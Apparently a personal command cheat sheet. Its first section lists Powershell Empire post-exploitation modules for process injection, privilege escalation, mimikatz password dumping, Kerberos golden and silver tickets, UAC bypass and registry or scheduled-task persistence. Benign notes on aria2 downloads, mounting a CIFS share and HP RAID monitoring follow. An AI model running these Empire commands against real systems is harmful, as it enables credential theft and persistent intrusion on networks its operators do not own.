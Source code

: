             

 Powershell Empire lulz
-------------------

            ps
            psinject PID#
            
            usemodule privesc/powerup/allchecks
             
            usemodule privesc/gpp
            
            usemodule credentials/mimikatz/logonpasswords
            
            
            bypassuac
            usemodule privesc/bypassuac_wscript
            usemodule credentials/mimikatz/golden_ticket
            usemodule credentials/mimikatz/silver_ticket
            
            usemodule situational_awareness/network/powerview/share_finder
            set CheckShareAccess
            
            usemodule persistence/userland/registry
            usemodule persistence/userland/schtasks
            

CLI searm multi threded downloads
-------------------

            apt-get install aria2
            aria2c --file-allocation=none -c -x 4 -s 4 -d "./" -i FILEWITHURLS 
            
            
            # mount samba ...
            mkdir /media/SSD
            mount -t cifs "//IP\Open Share" /media/SSD -o username=guest,noexec
            
            

monitor HP RAID
-------------------

            apt-get install hp-health
            apt-get install hpacucli
            apt-get install hponcfg
            
            
            hpacucli ctrl all show status
            hplog -t
            hpacucli ctrl all show config       
            
            hpacucli controller all show config detail | grep -A 7 -B 3 Fail | egrep '(Failed|Last|Serial Number|Port)'
            
            

dump file list of zip contents 
-------------------
